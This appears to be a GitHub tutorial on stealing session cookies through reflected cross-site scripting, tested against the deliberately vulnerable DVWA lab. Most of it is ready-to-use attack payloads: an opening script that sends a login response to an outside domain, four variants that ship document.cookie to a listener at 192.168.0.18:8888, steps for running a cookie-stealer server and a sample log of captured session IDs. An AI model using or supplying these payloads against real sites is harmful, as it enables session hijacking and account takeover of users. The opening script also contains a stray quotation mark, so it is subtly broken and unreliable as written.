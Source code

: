 # Steal Cookies with Reflected XSS

<script>
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() { if (xhr.readyState == 4)
 
{
   prompt('You are hacked , your session='+xhr.response);}
   document.location.replace('//yassergersy.com/stealer?data='+xhr.response');
}
xhr.open('POST', '/account/login',true);
xhr.withCredentials = true;
xhr.send(null);
</script>

##
##
##

This is a basic Reflected XSS attack to steal cookies from a user of a vulnerable website. The attack string comes from Ch. 12, p. 436 of [The Web Application Hacker's Handbook, 2nd Ed.][3]

This was tested against the [Damn Vulnerable Web Application][5] (DVWA) v1.8. DVWA can be installed alone or as part of the excellent [OWASP Broken Web Applications Project][6] (BWA) v1.2.



### Assumptions:
1. You've already identified website (and field or parameter) that is vulnerable to Reflected XSS.
1. You're able to run shell commands on a Linux system that is reachable by the vulnerable web app. You'll probably need to run the Python script (mentioned below) as root or prepended with `sudo`.

## Run the Cookie Stealer Python Script

You'll need a place to capture the stolen cookies. [lnxg33k][1] has written an excellent Python script called [XSS-cookie-stealer.py][2]. Run it with Python 2.6 or higher. It is just an HTTP server which logs each inbound HTTP connection and all the cookies contained in that connection.

```shell
python XSS-cookie-stealer.py
```

The resulting output, at minimum, will be this:

```shell
Started http server

```

You're not there yet. Now you have to launch the actual attack. Below are a couple of choices.

## Inject the XSS Attack Code
Below are four versions of the same attack.

### 1. `alert()` Before Stealing the Cookie
Run this version of the attack code if you want to see the cookie in a JS `alert()` as confirmation that the injection is successfully exploiting the vulnerability on the target site. Note that the cookie will not upload to your Python listener until the victim closes the JS `alert()` dialog.

```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://192.168.0.18:8888/?"+document.cookie;
</script>
```

### 2. Silent One-Liner
This one is the same but no `alert()` and all on one line.

```js
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>
```

### 3. `<img>` Tag Instead of `<script>` Tags
Don't use this one! It works but calls `onerror()` in a loop, filling up your stolen cookie log:
```html
<img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>
```

### 4. `<img>` Tag and Without the Infinite Loop
This one works and will only steal the cookie once. I adapted it from a posting on the old [kirupa.com][4] forum.
```html
<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">
```

## Harvest the Stolen Cookies
If you successfully get inject your cookie-stealing XSS script into a vulnerable website, and the script is subsequently executed in a victim's browser, you'll see a cookie appear in the STDOUT of the shell running the Python script:

```shell
2017-02-09 10:05 PM - 192.168.0.254	Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:51.0) Gecko/20100101 Firefox/51.0
------------------------------------------------------------------------------------------------------------------
Cookie Name			Value
------------------------------------------------------------------------------------------------------------------
acopendivids			['swingset,jotto,phpbb2,redmine']
security			['low']
acgroupswithpersist			['nada']
PHPSESSID			['93l9ahf1120bkp79t5ehbkc0m4']
```


[1]: https://github.com/lnxg33k
[2]: https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py
[3]: http://www.wiley.com/WileyCDA/WileyTitle/productCd-1118026470.html
[4]: https://www.kirupa.com/forum/showthread.php?377664-onerror-within-the-img-tag
[5]: http://www.dvwa.co.uk/
[6]: http://www.owaspbwa.org/
